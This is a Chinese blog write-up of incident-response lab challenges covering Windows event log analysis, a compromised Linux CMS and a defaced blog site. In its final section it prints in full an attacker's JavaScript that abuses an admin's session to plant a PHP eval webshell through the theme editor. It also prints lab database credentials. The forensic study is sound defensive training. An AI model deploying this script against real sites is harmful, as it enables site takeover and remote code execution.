










+++
title = "玄机第五章"
slug = "xuanji-chapter-5"
description = "刷"
date = "2025-04-08T20:50:06"
lastmod = "2025-04-08T20:50:06"
image = ""
license = ""
categories = [""]
tags = ["流量分析", "日志分析", "应急响应"]
+++

## 第五章 Windows 实战-evtx 文件分析

附件题，样本不能在本地运行，我掏出了很早之前装的ctfos虚拟机，放这里面来分析，密码为`hello-ctf.com`，有三个extx文件，根本不知道怎么来的，看**peterpan**的文章偷点东西过来，

**.evtx 文件简介**
 .evtx 文件是 Windows 事件日志文件，存储了由 Windows 操作系统和应用程序生成的事件日志。这些日志文件以二进制格式保存，包含关于系统、应用程序和安全事件的信息。

**.evtx 文件的作用**

1. 系统监控与维护
    .evtx 文件记录系统运行时的各种事件，如启动和关机、设备驱动程序的加载、服务的启动和停止等。系统管理员可以通过这些信息来监控和维护系统运行状况。
2. 故障排除
    当系统或应用程序出现问题时，事件日志提供详细的错误信息，帮助管理员和技术支持人员诊断和解决问题。
3. 安全审计
    安全日志（例如 Security.evtx）记录了登录尝试、权限更改、策略变更等安全相关事件。管理员可以通过审计这些日志来检测潜在的安全威胁和未授权访问。
4. 合规性检查
    某些行业要求企业保持详细的日志记录以满足法律或行业标准的合规性要求。事件日志提供了必要的证据和记录。

**.evtx 文件的生成来源**

1. Windows 操作系统核心组件
    Windows 系统记录各种系统事件，如启动、关机、服务状态变更等。这些日志通常存储在 `System.evtx` 文件中。
2. 应用程序和服务
    安装在 Windows 上的各种应用程序和服务将它们的事件日志写入相应的 .evtx 文件，例如 `Application.evtx`。
3. 安全事件
    与系统安全相关的事件日志由 Windows 安全审计功能生成，记录在 `Security.evtx` 文件中。

**常见的 .evtx 文件**

1. Application.evtx
    记录应用程序相关的事件日志。
2. System.evtx
    记录系统级别的事件日志。
3. Security.evtx
    记录安全事件和审计日志。
4. Setup.evtx
    记录与系统安装和升级相关的事件日志。
5. ForwardedEvents.evtx
    用于记录从其他系统转发的事件日志。

**使用 .evtx 文件的工具**

1. Event Viewer (事件查看器)
    Windows 内置的事件查看器工具，允许用户查看、分析和导出 .evtx 文件中的事件日志。可以通过运行 `eventvwr.msc` 命令打开事件查看器。
2. 第三方工具
    有许多第三方工具可用于分析 .evtx 文件，例如：
   - SolarWinds Event Log Analyzer
   - Splunk

### flag1

直接筛选4648，找到`flag{192.168.36.133}`

### flag2

筛选4738，如图



2是目标用户名，3是操作用户名，1是再次确定目标用户名，但是不对，后面找找发现还有被更改的，挨个交，发现正确的是，`flag{Adnimistartro}`

### flag3

筛选4663，发现以下文件

```
C:\Windows\explorer.exe
C:\Windows\System32\SMI\Store\Machine\SCHEMA.DAT
```

这很明显可以直接丁真啊，就是`flag{SCHEMA}`

### flag4

找到应用程序日志，发现mysql都是100，筛选100，如图这样的都是重启，发现最后一次是8820



`flag{8820}`

### flag5

筛选1074，只找了了两次，但是提交了并不对，这个只能多，所以我交的3结果对了，不懂为什么



怀疑要把这次也算上

## 第五章 linux实战-CMS01

这次链接服务器还给了公钥的附件，用这个链接Linux就好了，发现一个数据包，先dump下来，

### flag1

先看日志，但是这里没有Apache也没有nginx，但是看到了secure日志，问AI这是什么

`/var/log/secure` 日志的关键作用

1. **SSH 登录尝试**
    `secure` 日志记录了所有 SSH 登录的事件，包括成功和失败的登录尝试。当有人尝试通过 SSH 远程登录到系统时，成功或失败的尝试都会被详细记录。对于入侵检测，分析这些日志可以帮助你确定是否有来自可疑 IP 的非法登录尝试。
2. **认证失败信息**
    当用户输入错误的密码或尝试通过其他方式进行未授权访问时，这些信息也会被记录在 `/var/log/secure` 中。通过查看这些信息，可以发现恶意行为者的尝试，比如暴力破解密码攻击。
3. **记录远程访问的信息**
    日志中的信息通常包括了远程访问的 IP 地址、使用的用户名和成功/失败的状态等。这些信息对于追踪黑客或其他攻击者的来源 IP 地址至关重要。

`cat`一下发现IP地址是11列，写个命令筛选一下

```
grep "Accepted " /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr
```

`flag{192.168.20.1}`

### flag2

黑客修改管理员密码，而CMS一般都有数据库，先看一下是否存在`netstat -anlupt`



发现有，去找一下config，在`/www/wwwroot/127.0.0.1/lib`找到

```php
define('DU','kaoshi');//MYSQL数据库用户名
define('DP','5Sx8mK5ieyLPb84m');//MYSQL数据库用户密码
```

链接一下

```
mysql -ukaoshi -p5Sx8mK5ieyLPb84m
```

进行一下查询发现了md5，解一下就可以知道密码`f6f6eb5ace977d7e114377cc7098b7e3`，得到`flag{Network@2020}`

### flag3

开始分析流量，因为我们知道黑客IP所以可以筛选出来，不过也可以直接追踪http流，发现



web手直接看到了`ini_set(`，这肯定是在RCE，`flag{index.php?user-app-register}`

### flag4

链接密码也很明显啊`flag{Network2020}`

### flag5

找webshell没找到找到了 flag1，`flag1{Network@_2020_Hack}`，又找了一会儿，发现`version.php`和`version2.php`，找到一个流里面是这样的



这包是木马的啊，还是个冰蝎

`flag{version2.php}`

### flag6

要flag2，可以先查看一下历史命令先

```
history
```



`flag{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}`

并且发现非常的想`vim  alinotify.php`，但是我在`/www/wwwroot/127.0.0.1/api`找了好久都没找到，后面发现在`/www/wwwroot/127.0.0.1/.api`里面`flag{bL5Frin6JVwVw7tJBdqXlHCMVpAenXI9In9}`

## 第五章 linux实战-黑链

不知道黑链是什么，于是问AI，大概就是符号链接，还是看看靶场就知道是什么了，链接之后就看到有流量包，先dump下来

### flag1

看进程，tmp，网站根目录，前两者都没有，于是把`/var/www/html`给dump下来，放进VSCODE一下就找到了 



`flag{header.php}`

### flag2

找webshell，直接放D盾里面扫一下，发现404.php里面有



`flag{/var/www/html/usr/themes/default/404.php}`

### flag3

同时还扫出来了`poc1.js`

```js
// 定义一个函数，在网页末尾插入一个iframe元素
function insertIframe() {
    // 获取当前页面路径
    var urlWithoutDomain = window.location.pathname;
    // 判断页面是否为评论管理页面
    var hasManageComments = urlWithoutDomain.includes("manage-comments.php");
    var tSrc='';
    if (hasManageComments){
        // 如果是，则将路径修改为用于修改主题文件的页面地址
        tSrc=urlWithoutDomain.replace('manage-comments.php','theme-editor.php?theme=default&file=404.php');
    }else{
        // 如果不是，则直接使用主题文件修改页面地址
        tSrc='/admin/theme-editor.php?theme=default&file=404.php';
    }
    // 定义iframe元素的属性，包括id、src、width、height和onload事件
    var iframeAttributes = "<iframe id='theme_id' src='"+tSrc+"' width='0%' height='0%' onload='writeShell()'></iframe>";
    // 获取网页原始内容
    var originalContent = document.body.innerHTML;
    // 在网页末尾添加iframe元素
    document.body.innerHTML = (originalContent + iframeAttributes);
}

// 定义一个全局变量isSaved，初始值为false
var isSaved = false;

// 定义一个函数，在iframe中写入一段PHP代码并保存
function writeShell() {
    // 如果isSaved为false
    if (!isSaved) { 
        // 获取iframe内的内容区域和“保存文件”按钮元素
        var content = document.getElementById('theme_id').contentWindow.document.getElementById('content');
        var btns = document.getElementById('theme_id').contentWindow.document.getElementsByTagName('button');    
        // 获取模板文件原始内容
        var oldData = content.value;
        // 在原始内容前加入一段phpinfo代码
        content.value = ('<?php @eval($_POST[a]); ?>\n') + oldData;
        // 点击“保存文件”按钮
        btns[1].click();
        // 将isSaved设为true，表示已经完成写入操作
        isSaved = true;
    }
}
// 调用insertIframe函数，向网页中添加iframe元素和写入PHP代码的事件
insertIframe();
```

代码意思很明显，利用`iframe`插入webshell，运行`md5sum poc1.js`，`flag{10c18029294fdec7b6ddab76d9367c14}`

### flag4

找攻击入口，我觉得要去看看流量包了，使用过滤器`http contains "poc1.js"`



发现在Cookie里面利用`script`标签加载`poc1.js`进行利用，`flag{/index.php/archives/1/}`
